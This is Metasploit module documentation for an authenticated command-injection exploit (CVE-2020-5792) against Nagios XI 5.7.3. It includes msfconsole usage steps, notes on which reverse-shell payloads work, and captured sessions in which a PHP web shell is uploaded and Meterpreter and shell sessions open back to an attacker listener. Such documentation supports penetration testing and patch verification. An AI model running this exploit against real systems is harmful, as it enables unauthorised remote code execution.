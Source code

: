 ## Vulnerable Application
This module exploits an OS command injection vulnerability (CVE-2020-5792) in `includes/components/nxti/index.php`
that enables an authenticated user with admin privileges to achieve remote code execution as the `apache` user.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate to the target and
obtain the Nagios XI version number, which is then used to check if the target is version 5.7.3 and therefore vulnerable.

Next, the module uploads a simple PHP shell to `includes/components/nxti/index.php` and then executes the payload
via an HTTP GET request to `includes/components/autodiscovery/jobs/<php_shell>?<php_param>=<cmd>`

The module supports `linux/x64` and `linux/x86` payloads (target 0) as well as `cmd/unix` payloads (target 1),
However, the only reliable `cmd/unix` payloads against a typical Nagios XI host (CentOS 7 minimal) seem to be
`cmd/unix/reverse_awk`, `cmd/unix/reverse_perl_ssl` and `cmd/unix/reverse_openssl`.

Valid credentials for a Nagios XI admin user are required.
This module has been successfully tested against Nagios XI 5.7.3 running on CentOS 7.

Vulnerable software for testing is vavailable [here](https://assets.nagios.com/downloads/nagiosxi/versions.php).
Detailed installation instructions are available
[here](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf)
and an official video tutorial is available [here](https://www.youtube.com/watch?v=fBWA6t6dJ4I).

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/nagios_xi_snmptrap_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [username for the Nagios XI account]`
5. Do: `set PASSWORD [password for the Nagios XI account]`
6. Do: `set target [target]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### PASSWORD
The password for the Nagios XI account to authenticate with.
### TARGETURI
The base path to Nagios XI. The default value is `/nagiosxi/`.
### USERNAME
The username for the Nagios XI account to authenticate with. The default value is `nagiosadmin`.

## Targets
```
Id  Name
--  ----
0   Linux
1   CMD
```

## Scenarios
### Nagios XI 5.7.3 running on CentOS 7 - Linux target
```
msf6 exploit(linux/http/nagios_xi_snmptrap_authenticated_rce) > show options 

Module options (exploit/linux/http/nagios_xi_snmptrap_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nagiosadmin      yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /nagiosxi/       yes       The base path to the NagiosXi application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(linux/http/nagios_xi_snmptrap_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Uploading a simple PHP shell to /usr/local/nagiosxi/html/includes/components/autodiscovery/jobs/FstbNexJNZ.php
[*] Attempting to execute the initial payload via `/nagiosxi/includes/components/autodiscovery/jobs/FstbNexJNZ.php?T=<cmd>`
[*] Sending stage (976712 bytes) to 192.168.1.14
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.14:42758) at 2021-02-01 11:19:46 -0500
[*] Command Stager progress - 100.00% done (773/773 bytes)
[!] This exploit may require manual cleanup of '/usr/local/nagiosxi/html/includes/components/autodiscovery/jobs/FstbNexJNZ.php' on the target

meterpreter > 
[+] Deleted /usr/local/nagiosxi/html/includes/components/autodiscovery/jobs/FstbNexJNZ.php
getuid
Server username: apache @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
```
### Nagios XI 5.7.3 running on CentOS 7 - CMD target
```
msf6 exploit(linux/http/nagios_xi_snmptrap_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Uploading a simple PHP shell to /usr/local/nagiosxi/html/includes/components/autodiscovery/jobs/wMwKGRHf.php
[*] Attempting to execute the payload via `/nagiosxi/includes/components/autodiscovery/jobs/wMwKGRHf.php?W=<cmd>`
[*] Command shell session 2 opened (192.168.1.12:4444 -> 192.168.1.14:41607) at 2021-02-01 11:21:12 -0500
[+] Deleted /usr/local/nagiosxi/html/includes/components/autodiscovery/jobs/wMwKGRHf.php

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```
